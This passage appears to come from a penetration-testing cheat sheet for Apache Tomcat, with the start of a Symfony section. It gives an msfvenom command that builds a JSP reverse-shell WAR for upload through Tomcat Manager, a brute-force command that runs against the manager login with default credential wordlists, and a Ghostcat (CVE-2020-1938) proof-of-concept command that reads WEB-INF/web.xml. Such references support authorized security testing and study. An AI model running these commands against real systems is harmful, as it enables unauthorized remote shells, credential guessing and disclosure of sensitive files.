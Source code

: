 > Upload a Reverse shell
1. Create a reverse shell with msfvenom.
Example:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<port> -f war -o <file.war>
```

2. Upload into WAR File.
3. When executing the uploaded file, the connection is opened.

Other option is to do it with Metasploit (the shell should be uploaded in path /manage)

> Tomcat Manager - Login Brute Force

Metasploit module -> scanner/http/tomcat_mgr_login

Other way - exploit:

Exploit: https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce

Example:

```
python3 mgr_brute.py -U http://<domain>:<port>/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

> CVE-2020-1938 : Ghostcat

Command:

```
nmap -sV -p 8009,8080 <domain>
```

PoC: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi

Code:

```
python2.7 tomcat-ajp.lfi.py <domain> -p <port> -f WEB-INF/web.xml
```

In some Tomcat installs, we may be able to access sensitive data within the WEB-INF file.


### Synfony

> Tool - eos

https://github.com/synacktiv/eos

Installation

```
$ git clone https://github.com/Synacktiv/eos
$ python3 -m pip install --user ./eos
```

Example of usage:
